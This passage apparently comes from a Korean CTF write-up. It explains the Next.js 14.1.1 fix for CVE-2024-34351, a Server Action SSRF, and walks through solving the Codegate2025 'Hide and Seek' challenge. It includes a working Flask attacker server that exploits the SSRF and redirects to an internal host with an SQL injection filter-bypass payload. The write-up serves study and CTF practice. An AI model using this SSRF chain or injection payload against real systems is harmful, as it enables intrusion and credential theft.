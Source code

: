 ### How to fixed in 14.1.1

---

`14.1.1` 버전에서는 아래와 같이 `__NEXT_PRIVATE_HOST` 환경변수를 먼저 체크해주는 방식으로 바뀌었습니다.

![image.png](../../../assets/img/2025-04-13/patch.png){: w="800" h="400" } 

## Codegate2025 - Hide and Seek

---

Codegate2025에 나왔던 Hide and Seek 문제에서 해당 CVE가 사용됐는데 간략하게 소개하겠습니다. 해당 문제에 `internal-server`가 있었는데 해당 서버에 대한 코드는 제공되지 않았습니다. 따라서 가장먼저 SSRF를 떠올릴 수 있습니다. 문제의 스텝을 먼저 말씀드리면, 아래와 같이 진행됩니다.

- `internal-server`의 포트 번호 찾기 (well-known port number)
- CVE-2024-34351 이용 (`npm audit`으로 쉽게 확인할 수 있었음)
- SQL Injection Filter bypass하여 internal에 있는 플래그 획득

### 문제에서 SSRF가 발생하는 부분

---

CVE-2024-34351 분석에서 언급했듯이, 아래와 같이 SSRF가 발생하는 조건을 갖춘 곳을 빠르게 찾을 수 있습니다.

```tsx
'use server'

import { redirect } from "next/navigation";

export async function redirectGame() {
  return redirect("/hide-and-seek");
}
```

SSRF를 트리거할 수 있도록 아래와 같은 간단한 서버를 하나 필요합니다. (문제 풀이를 위한 페이로드는 무시해도 좋습니다) `Host`와 `Origin` 헤더를 공격자의 서버로 지정하고 Server Action을 트리거하면, SSRF에 의해서 서버에서 HEAD 요청을 받을 때, `Content-Type`을 `text/x-component`로 설정합니다. 그러면 문제의 `external-server`에서 `internal-server`로 GET 요청을 보낼 것입니다.

```python
from flask import Flask, request, Response, redirect

app = Flask(__name__)
port = 808

@app.route("/hide-and-seek", methods=["HEAD"])
def test():
    return Response("1", content_type="text/x-component")

@app.route("/hide-and-seek", methods=["GET"])
def test1():
    url = f"http://192.168.200.120:{port}/login?key=392cc52f7a5418299a5eb22065bd1e5967c25341&username=Admin&password=guest' union select passwoorrd,passwoorrd from users where userorname=0x61646d696e%23"
    return redirect(url)

app.run(host="0.0.0.0", port=10001, debug=True)

```
